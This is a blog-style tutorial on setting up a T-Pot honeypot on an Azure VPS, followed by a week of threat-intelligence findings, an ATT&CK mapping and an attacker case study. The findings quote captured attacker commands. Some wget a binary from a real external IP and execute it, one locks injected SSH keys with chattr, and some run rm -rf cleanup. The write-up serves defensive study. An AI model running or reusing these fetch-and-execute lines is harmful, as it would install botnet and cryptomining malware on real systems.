### Making Your Very Own Honeypot

So, I was originally planning to make a SOC home lab environment — building out VMs, installing a SIEM, and emulating attacks myself. But while talking to a fellow L3AK member, he gave me a reality check: *why emulate attacks when you can get real ones?* He told me about the honeypot idea, and I was convinced right away. I got to work researching how to build one, and there were generally two options:

1. **Host it in a local VM on my computer:** This is okay, but you have to be extremely careful. If the attackers manage to escape the VM, they compromise your actual host machine. Furthermore, you need to leave your computer running 24/7 to actually catch attacks, which drains your own resources.
2. **Deploy it on a Cloud VPS:** Secure, isolated, and always online. 

Naturally, I went with the second approach! xD

---

### Step 1: Getting a Cloud VPS

Getting a cloud VPS can cost money, but thankfully, I have a university email. Let's use those student perks while we can! By heading to [Azure for Students](https://azure.microsoft.com/en-us/free/students), you can claim a $100 credit for 3 months — more than enough for our project.

After claiming the credit, head to the Azure Main Dashboard and select **Virtual machines**.



From there, click **Create**, then **Virtual machine**.



Now we’ll start setting up the VM itself. 


You'll need to fill out the **Virtual machine name** and select your **Region** (choose the one closest to you for better latency). 

* **Image (OS):** I chose **Ubuntu Server** because we don't need a GUI or any unnecessary background tasks eating up our compute.
* **Size:** We need at least **16GB of RAM**, as the T-Pot suite requires a lot of resources to run Elastic Stack and multiple honeypot containers.
* **Authentication type:** Select **Password**. Enter a username and a strong password (we will need this to connect via SSH later).
* **Public inbound ports:** Allow selected ports.
* **Select inbound ports:** Choose `HTTP (80)`, `HTTPS (443)`, and `SSH (22)`.



Next, go to the **Disks** tab and set the **OS disk size** to **128 GB**.



Keep the other settings at their defaults, click **Review + Create**, and then **Create** to deploy the VM.

---

### Step 2: Configuring Firewall Rules

Once deployed, you will be moved to the VM homepage. But before we connect, we need to create some network Firewall rules to allow the honeypot to communicate and capture traffic.





We need to add 2 sets of rules: **Outbound** and **Inbound**.

For the **Outbound rule**, we will allow traffic on these 3 ports: `80` (HTTP), `443` (HTTPS), and `11434`.



Leave everything as default, except for the **Destination port ranges** (input `80, 443, 11434`) and the **Name**. Then click Add.

Now, do the exact same thing for the **Inbound rule**, but input this massive list of ports that T-Pot needs to listen on:
```text
64294, 64295, 64297, 5555, 22, 5000, 8443, 102, 502, 1025, 2404, 10001, 44818, 47808, 50100, 161, 623, 23, 19, 53, 123, 1900, 11112, 42, 1433, 1723, 1883, 3306, 8081, 69, 9200, 8080, 80, 443, 25, 110, 143, 993, 995, 1080, 5432, 5900, 3000, 389, 445, 1521, 3389, 5060, 6379, 6667, 9100, 11211, 631, 25565, 2575, 8090, 21
```

---

### Step 3: Connecting and Preparing the OS

Now we are ready to connect to our VM! Head to the VM main page and click **Connect**.



Copy the SSH command (it will include the username you made during setup) and paste it into your local terminal:

```bash title="Connecting to the VM"
ssh username@<your-vps-ip>
```

You will be prompted to enter your password. Once inside, let's update the system:

```bash title="Updating Ubuntu"
sudo apt-get update && sudo apt-get upgrade -y
```

Next, we are going to create a new user and add them to the `sudo` group. *(Running massive Docker installations directly as root isn't always the best practice, so creating a dedicated user helps keep things organized!)*

```bash title="User Setup"
sudo usermod -aG sudo username
su username
whoami
```

---

### Step 4: Installing T-Pot

Now for the fun part — installing T-Pot. First, we clone the repository:

```bash title="Cloning T-Pot"
git clone [https://github.com/telekom-security/tpotce](https://github.com/telekom-security/tpotce)
cd tpotce/iso/installer
```

Then, launch the installer script:

```bash title="Running the installer"
./install.sh
```

You will be prompted to choose an installation type. Choose the **H (Hive)** installation type, which installs all the tools and honeypots available in the T-Pot suite.

:::important[Save Your Web Credentials!]
During the installation, you will be asked to enter a web username and a password. **Make sure you set a strong password and save it somewhere safe!** You will need these exact credentials to log in to the T-Pot Kibana dashboard later.
:::

After the installation finishes, reboot the VPS:

```bash title="Rebooting"
sudo reboot
```

:::warning[Crucial SSH Change]
T-Pot automatically changes your standard SSH login port from `22` to `64295` to free up port 22 for the honeypot to capture brute-force attacks!
:::

To connect to your server from now on, you **must** specify the new port:

```bash title="New SSH connection command"
ssh -p 64295 username@<your-vps-ip>
```

---

### Step 5: Exploring the Dashboard

Now that everything is running, we can access the T-Pot web dashboard! Open your browser and navigate to:

`https://<your-vps-ip>:64297`

Log in using the web username and password you created during the installation. You will be greeted by the main dashboard.



Let's look at what we have at our disposal:

#### The Attack Map
It shows your honeypot and provides a live, interactive view of the attacks happening in real-time. It maps the source IP, physical location, protocol used, and which specific honeypot container is being targeted.



#### CyberChef
The Cyber Swiss Army Knife — an embedded web app for encryption, encoding, compression, and data analysis. Perfect for decoding malicious payloads dropped on the honeypot.

#### Elasticvue
A free and open-source GUI for Elasticsearch, allowing you to search and filter your cluster's raw data right in your browser.

#### Kibana
This takes you directly into Kibana where you can view the pre-made T-Pot dashboards. It visualizes valuable threat data in an organized manner. You can also use the *Discover* tab to analyze each log individually and hunt through the noise.



#### Spiderfoot
An open-source automated OSINT framework. Though it hasn't been updated recently, it is still incredibly useful for investigating the IPs and domains attacking your system.

---

### Next Steps: Threat Intel Automation

At this point, I could say the project is "done." But from my perspective, this was too easy. We didn't do much other than install a tool. 

I wanted to take it a step further by turning this passive honeypot into an active **Threat Intel Producer**. 

So afterwards, I made 4 custom Python scripts to automatically extract the IPs, query them against VirusTotal, and generate a daily report.

You can find all 4 scripts, along with instructions on how to run them on your own T-Pot instance, in my GitHub repository here:

::github{repo="abdon3899/tpot_scripts"}
### Findings: What the Honeypot Caught — A Week in the Wild

After deploying T-Pot and running the extraction scripts, the data speaks for itself. Over the observation period, the sensors processed 487 log files from across the full T-Pot stack, catching 46,644 unique source IPs and 602 distinct IDS alert signatures. 

What follows is a breakdown of everything we observed: who was knocking, what they were trying to do, what malware they dropped, and how their behavior maps to the MITRE ATT&CK framework.

#### 1. The Attack Surface: Who Was Hitting Us
The volume of inbound attack traffic was immediate and relentless. The top attacker by event count was the internal gateway address `10.0.0.4` (2.1 million events), which reflects the router/NAT forwarding traffic to the honeypot rather than a real external attacker. Stripping that aside, the real external threats tell a more interesting story.

The next four IPs — `37.221.79.52` (349K events), `164.92.78.51` (308K), `129.212.181.73` (303K), and `137.184.121.249` (292K) — collectively generated over 1.2 million events on their own. These are not casual scanners. The consistency and volume suggest automated tooling running persistent scan-and-exploit loops, likely bots operating as part of larger botnets.

Several Egyptian IPs also appeared prominently in the top 20 (`41.226.164.1`, `41.33.240.115`, `102.188.157.28`) — a reminder that proximity doesn't mean safety, and local infrastructure is just as likely to be compromised and weaponized.

#### 2. What Suricata Saw: The IDS Picture
Suricata triggered 1,165,317 times on a single rule alone: `GPL INFO VNC server response`. This points directly to widespread, automated VNC scanning. The alert `ET EXPLOIT VNC Server Not Requiring Authentication` fired 6,382 times — meaning thousands of attempts were made against open VNC endpoints with no credentials required.

The second-biggest story is **EternalBlue**. IP `129.205.245.4` triggered `ET EXPLOIT Possible ETERNALBLUE Probe MS17-010` 51 times alongside MSSQL scanning (4,587 hits on port 1433). EternalBlue, the NSA-developed exploit used in WannaCry, is still actively being scanned for in 2026. That is not a drill.

`37.221.79.52` triggered a notably rare alert: `ET MALWARE J-magic (nfsiod) Backdoor Magic Packet Inbound Request M2` — a signature associated with a sophisticated Cisco/Juniper router backdoor discovered by Lumen Black Lotus Labs. This indicates a threat actor specifically probing for embedded/network device implants.

#### 3. Attacker Behaviour: Commands and Kill Chains
Forty-eight unique commands were captured, clustering into clear, repeatable attack playbooks.

**Playbook A — Android/ADB Cryptomining**
The single most-repeated command was executed 15 times — a multi-stage ADB exploitation chain pulling binaries from `196.251.107.133`:
```bash
cd /data/local/tmp; mkdir .p 2>/dev/null; cd .p;
(wget -qO b [http://196.251.107.133/bins/parm7](http://196.251.107.133/bins/parm7) ... );
chmod 777 b; (su 0 ./b adb || ./b adb) 2>/dev/null; rm -f b
```
The attacker creates a hidden directory, downloads architecture-specific binaries (`parm`, `parm5`, `parm7`), executes with root escalation, and wipes the binary afterwards.

**Playbook B — Linux ARM/x86 Botnet Deployment**
Three separate IPs were observed dropping shell scripts that dynamically pull architecture-detected ELF binaries:
```bash
arch=$(uname -m); case $arch in *arm*) target=zyre.arm7;; *86|*64) target=zyre.x86;; esac;
wget [http://103.130.214.71:1212/$target](http://103.130.214.71:1212/$target) -O $target;
chmod 755 $target && ./$target
```
The architecture detection before download is a maturity indicator — this isn't a simple wget-and-run; it's a deployment framework that self-adapts to the victim's hardware.

**Playbook C — SSH Persistence and Lateral Movement**
A disguised `sshd` binary was stored in a hidden directory, launched with `nohup` to survive session termination, and passed a list of over 50 IPs as arguments. The session also dropped SSH authorized keys using immutable attributes (`chattr +ai ~/.ssh/authorized_keys`) to lock the file and prevent deletion by defenders.

#### 4. Malware: What VirusTotal Confirmed
Every file with a non-zero detection count was confirmed malicious by multiple AV engines.

The highest-detected file scored **45/72** detections and is an ELF binary. From the Adbhoney sensor, IP `223.104.221.122` dropped the most diverse payload set: two ELF binaries (37 and 40 detections) and an Android APK (41 detections). The presence of both formats from the same source IP confirms this actor operates cross-platform infrastructure.

#### 5. The Mail Threat: Open Relay Abuse
The Mailoney honeypot caught 102 unique spammer IPs across 1,142 log lines. The dominant actor, `45.95.147.229` (385 connections), spoofed the sender `spameri@tiscali.it` 14 times. The email subject lines tell the full story: `[SECURITY] Open Relay Verified - server.5701cddc2542.com`. The honeypot's SMTP service was identified and successfully tested as an open relay for spam infrastructure.

#### 6. MITRE ATT&CK Mapping
Mapping the observed behavior to the MITRE ATT&CK framework produces a clear picture of the tactics in play:

| Technique ID | Tactic | Evidence / Observation |
| :--- | :--- | :--- |
| **T1105** | Ingress Tool Transfer | `wget`/`curl` fallback chains |
| **T1059** | Command & Scripting | Shell scripts, Python UA strings |
| **T1496** | Resource Hijacking | `com.ufo.miner`, `trinity` binaries |
| **T1222** | File Permissions | `chmod 777`, `chmod 0755` |
| **T1082** | System Info Discovery | `uname`, `getprop`, `cat /proc/cpuinfo` |
| **T1098.004** | Create SSH Keys | `authorized_keys` + `chattr +ai` |
| **T1046** | Network Service Disc. | NMAP SYN scans (2,353 Suricata hits) |
| **T1190** | Exploit Public App | EternalBlue probes (MS17-010) |
| **T1110** | Brute Force | Cowrie SSH credential storms |
| **T1485** | Data Destruction | `rm -rf /data/local/tmp/*` cleanup |

---

### 7. Case Study: Threat Actor Deep Dive (`163.0.228.48`)

To put all of this into perspective, let's look at the exact telemetry of a single, highly aggressive attacker.

:::danger[Threat Actor Profile]
* **Sensor Target:** `adbhoney` (Android Debug Bridge)
* **First Seen:** 2026-04-06 15:58:57 UTC
* **Session Duration:** ~2 minutes
* **Total Commands Issued:** 18
* **Classification:** Android Cryptomining Botnet Operator
:::

Of every IP observed, `163.0.228.48` produced the most complete and readable kill chain. In under two minutes, this actor connected to the Adbhoney sensor, deployed a known cryptominer, attempted to install a second-stage payload called `trinity`, checked for competing malware processes, and cleaned up — all in a fully automated, scripted sequence. 

**The Kill Chain Execution:**
1. **Existence Check:** (`pm path com.ufo.miner`) The bot verifies whether a previous infection attempt already succeeded.
2. **APK Deployment:** (`pm install /data/local/tmp/ufo.apk`) The miner activity is installed and launched directly via the Activity Manager. The APK is immediately deleted to remove the artifact.
3. **Competitor Cleanup:** (`ps | grep trinity`, `ps | grep xig`, `rm -rf /data/local/tmp/*`) The bot actively checks for known competing botnets. If found, it forcefully evicts them by wiping the temp directory before establishing its own payload.
4. **Second Stage Execution:** (`chmod 0755 /data/local/tmp/trinity`) A Linux ELF binary is executed via a custom `nohup` wrapper that the attacker brought with them to ensure execution survives session termination.

This actor touches all eight core ATT&CK tactics in a two-minute automated session. That breadth in such a short window is only possible because the entire operation is scripted — there is zero human dwell time. The behavior aligns strongly with known tactics from the **TeamTNT** threat group, proving that exposed ADB ports (5555) are still a highly lucrative target for automated cryptomining operations.

---

### 8. Conclusions

A few things stand out after digesting all of this data together:

1. **The internet is constantly hostile.** Within hours of deployment, the honeypot was receiving targeted exploit attempts. There is no grace period for an exposed service.
2. **EternalBlue is still alive.** Eight years after the Shadow Brokers leak, MS17-010 scanning is still a daily occurrence. 
3. **High VT detection scores mean known malware.** Every ELF captured had been seen by the AV community. The good news is that endpoint protection would catch these. The bad news is that many embedded devices have no such protection.
4. **Open infrastructure gets indexed and abused.** The honeypot's SMTP service was identified as a potential relay within days. Anything you expose will be found, tested, and potentially weaponized.

If you made it this far, thank you for reading! Feel free to grab the extraction scripts from my GitHub to run against your own T-Pot instance, and let me know on LinkedIn what kind of crazy payloads your honeypot catches.